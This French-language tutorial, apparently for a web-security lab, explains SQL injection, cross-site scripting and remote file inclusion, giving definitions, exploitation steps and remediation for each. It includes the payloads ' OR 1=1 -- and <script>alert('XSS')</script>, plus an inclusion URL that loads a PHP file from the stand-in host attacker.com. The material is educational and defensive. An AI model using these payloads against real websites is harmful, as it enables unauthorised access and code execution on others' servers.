 ```**********************************************************************************************************************************************```

# Low - Injection SQL (SQLi)
## Définition:
L'injection SQL permet à un attaquant d'insérer (ou "injecter") du code SQL malveillant dans une requête SQL. Cela peut permettre à l'attaquant de manipuler des bases de données pour exfiltrer des informations sensibles, modifier des données ou même prendre le contrôle de la base de données.
## Comment l'utiliser:
Si tu as une page qui prend des entrées utilisateur, comme un champ de connexion, tu peux essayer d'injecter une commande SQL malveillante. Par exemple, dans un champ de "username", tu peux essayer: ```' OR 1=1 --```
Cette chaîne contourne la vérification du mot de passe en rendant la condition toujours vraie.
## Solution :
- Utiliser des requêtes préparées avec des paramètres liés.
- Valider et filtrer toutes les entrées des utilisateurs.
- Utiliser des comptes avec des privilèges limités sur la base de données.

# Medium - Cross-Site Scripting (XSS)
## Définition:
Le Cross-Site Scripting (XSS) permet à un attaquant d'injecter du code JavaScript malveillant dans une page web, qui sera ensuite exécuté dans le navigateur des utilisateurs lorsqu'ils consultent la page.
## Exploitation:
Par exemple, un attaquant peut injecter ce code dans un champ de commentaire vulnérable sur un site web: ```<script>alert('XSS')</script>```
Cela affichera une alerte dans le navigateur de la victime.
## Solution :
- Encoder toutes les sorties des données utilisateurs (par exemple, utiliser htmlspecialchars() en PHP).
- Mettre en place une politique de sécurité du contenu (CSP) pour restreindre les scripts non autorisés.
- Valider et assainir les entrées utilisateur, notamment les champs de formulaire.

# High - Remote File Inclusion (RFI)
## Définition:
L'attaque Remote File Inclusion (RFI) permet à un attaquant d'inclure un fichier malveillant depuis une URL externe. Si un site permet l'inclusion de fichiers sans validation, un attaquant peut injecter un fichier PHP malveillant, entraînant souvent l'exécution de code sur le serveur.
## Exploitation:
Par exemple, si un site web utilise un paramètre comme include.php?file=page.txt, un attaquant pourrait injecter : ```http://attacker.com/malicious_file.php```
Cela chargerait un fichier PHP malveillant depuis un serveur externe.
## Solution :
- Désactiver l'option allow_url_include dans PHP.
- N'accepter que des fichiers locaux pour l'inclusion et les valider.
- Utiliser une liste blanche de fichiers autorisés à inclure.

```****************************************************************************************************************************************************```

# Comment exploiter ces vulnérabilités
## SQL Injection (SQLi)
1) Exploitation simple :
- Injecter une chaîne comme ' OR 1=1 -- dans un champ de formulaire comme username.
- Cela modifie la requête SQL pour que la condition 1=1 soit toujours vraie, contournant la vérification du mot de passe.
2) Exemple :
- Sur une page de connexion, l'attaquant entre :
    - username: ' OR 1=1 --
    - password: (vide)
- La requête SQL devient SELECT * FROM users WHERE username='' OR 1=1 --' AND password='', ce qui renvoie toujours un résultat.

## XSS (Cross-Site Scripting)
1) Exploitation simple :
- Injecter un script JavaScript malveillant dans un champ vulnérable (comme un commentaire), qui sera ensuite exécuté dans le navigateur de l'utilisateur.
2) Exemple :
- Dans un champ de commentaire, l'attaquant entre: ```<script>alert('XSS')</script>```
- Lorsque quelqu'un consulte la page, ce script est exécuté dans son navigateur, affichant l'alerte.

## RFI (Remote File Inclusion)
1) Exploitation simple :
- Si le site inclut des fichiers via un paramètre comme include.php?file=page.txt, l'attaquant peut soumettre une URL externe pointant vers un fichier PHP malveillant.
2) Exemple :
- Si le site permet l'inclusion de fichiers, l'attaquant pourrait soumettre : ```http://attacker.com/malicious_file.php```
- Cela chargerait un fichier PHP malveillant et l'exécuterait sur le serveur.

```****************************************************************************************************************************************************```

# Comment résoudre ces vulnérabilités
## SQL Injection (SQLi)
1) Utiliser des requêtes préparées et des paramètres liés pour éviter l'injection.
2) Valider et filtrer toutes les entrées des utilisateurs.
3) Donner des privilèges limités aux comptes de la base de données (par exemple, en lecture seule pour les requêtes publiques).

## XSS (Cross-Site Scripting)
1) Encoder toutes les sorties pour éviter que le JavaScript soit exécuté (par exemple, avec htmlspecialchars()).
2) Mettre en place une Content Security Policy (CSP) pour limiter les sources de scripts autorisés.
3) Valider et filtrer toutes les entrées utilisateur dans les formulaires et autres champs.

## RFI (Remote File Inclusion)
1) Désactiver allow_url_include dans PHP.
2) Valider soigneusement les fichiers acceptés pour inclusion (n'accepter que des fichiers locaux).
3) Utiliser une liste blanche des fichiers autorisés à être inclus.

```****************************************************************************************************************************************************```